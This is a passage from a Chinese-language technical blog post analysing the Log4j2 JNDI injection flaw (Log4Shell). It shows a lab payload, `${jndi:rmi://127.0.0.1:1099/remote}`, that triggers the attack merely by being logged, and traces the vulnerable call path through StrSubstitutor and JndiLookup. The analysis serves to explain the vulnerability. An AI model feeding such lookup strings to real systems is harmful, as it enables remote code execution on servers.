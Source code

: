在客户端，我们输入`${jndi:rmi://127.0.0.1:1099/remote}`，下图为执行结果。  

![](https://raw.githubusercontent.com/Taaang/blog/master/assets/images/post_imgs/log4j2_leak/7.jpg){:height="500" width="500"}  

在这段例子中，我们不再显式查找对应的JNDI RMI服务，只是输出了一条日志，同样触发了攻击。  

这是为什么呢？  

## 核弹的按钮  

从上面的例子来看，  
只是简单的做了日志输出，  
为什么会触发攻击呢？  

其实关键动作就触发在 Log4j2 输出日志的过程中。  
在输出日志的 Message Body （%m/%msg）时， `MessagePatternConverter`会进行消息格式化，会使用`StrSubstitutor`的`substitute(...)`方法，当判断发现变量以`${`作为前缀，并以`}`作为后缀时，就会进入字符串替换逻辑，最终进入`resolveVariable(...)`进行变量解析，其中解析器就包含了JNDILookup。  

![](https://raw.githubusercontent.com/Taaang/blog/master/assets/images/post_imgs/log4j2_leak/8.jpg){:height="500" width="500"}  

完整的调用栈如下：  
